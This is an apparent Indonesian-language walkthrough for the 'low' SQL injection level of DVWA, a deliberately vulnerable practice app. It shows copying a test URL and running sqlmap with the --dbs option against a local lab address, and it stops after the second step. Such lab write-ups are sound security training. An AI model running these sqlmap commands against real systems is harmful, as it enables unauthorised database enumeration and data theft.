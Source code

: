 <b> HOW TO SOLVE SQL INJECTION LOW </b>

1. First, kita masukin user ID dengan angka '1' untuk men test, setelah itu kita copy url nya

``
http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit# 
``

![Screenshot (445)](https://user-images.githubusercontent.com/118157585/215420792-fea06c63-43ad-459a-bca5-b848f089d75d.png)

2. Lalu kita buka Sqlmap di cli kita, copy url tadi. berikut perintahnya :

``
sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' --dbs
``
